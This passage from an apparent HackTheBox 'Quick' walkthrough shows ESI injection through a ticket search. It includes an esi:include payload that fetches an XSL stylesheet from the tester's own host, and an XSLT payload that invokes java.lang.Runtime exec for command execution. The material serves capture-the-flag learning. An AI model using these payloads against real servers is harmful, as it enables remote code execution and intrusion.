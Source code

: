 And now we can search for the ticket:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/search-ticket.png)

The first thing that came to my mind is to test for HTML injection:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/html-injection.png)

## Exploiting the ESI inclusion
I tried different payloads to achieve LFI but then I read one of the responses
which had the `X-Powered-By: Esigate` header. This tells us that the server may
be vulnerable to ESI injection, there's a neat
[article](https://portswigger.net/daily-swig/edge-side-includes-abused-to-enable-rce)
that explains it very well.

Let's create a ticket to try to achieve ESI injection:
```html
<esi:include src="http://127.0.0.1" />
```
And let's search for it:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/esi-injection.png)

Looks like the homepage got included in the response! Let's try to include a
remote resource using this payload after starting a HTTP server with `python3 -m
http.server 1337`:
```html
<esi:include src="index.php" stylesheet="http://10.10.14.81:1337/test.xsl">
</esi:include>
```

And we got a request:
```
10.10.10.186 - - [30/Apr/2020 09:18:35] "GET /test.xsl HTTP/1.1" 200 -
```

We can use this payload to try to achieve RCE as explained in this
[article](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/):
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ls]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
